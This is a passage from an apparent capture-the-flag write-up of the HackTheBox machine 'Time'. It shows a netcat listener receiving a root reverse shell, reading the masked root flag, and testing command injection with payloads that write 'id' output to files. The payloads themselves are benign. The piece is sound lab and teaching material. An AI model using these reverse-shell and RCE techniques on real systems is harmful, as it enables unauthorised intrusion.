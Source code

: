 Very quickly, I've got a root shell at `nc`:



    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...                                     
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58304
    bash: cannot set terminal process group (65912): Inappropriate ioctl for device
    bash: no job control in this shell                        
    root@time:/#



However, the shell dies after like 10 seconds. That's plenty to get the
flag:



    root@time:/# cd root
    root@time:/root# cat root.txt
    ecb18a98************************



I'll look at getting a better shell in [Beyond Root](#beyond-root).

## Beyond Root

### Writing Via RCE

When testing RCE for the initial foothold, I went with a `ping`. I was
already confident that it was starting to work, since the SQL script was
being requested from my supplied URL, and that seemed like a solid way
to test RCE and connectivity back. But as I started to write in my notes
that I couldn't write a file and see it, I wondered - is that true?
There's a webserver after all. Perhaps I could write a webshell (not
really sure why I need once since I already have RCE and a reverse
shell, but what if a firewall were blocking all outbound?).

I tried the payload from the site (`id > exploited.txt`), but nothing
showed up at the web root or any folders I knew about. I cheated a bit,
since I had a shell already, and checked.



    pericles@time:/var/www$ find.md/ -name exploited.txt



It returned nothing. I modified the payload slightly to
`id > /tmp/exploited.txt`. On re-run, that worked:



    pericles@time:/var/www$ cat /tmp/exploited.txt 
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)



So why couldn't I write to the web root? Well, permissions:



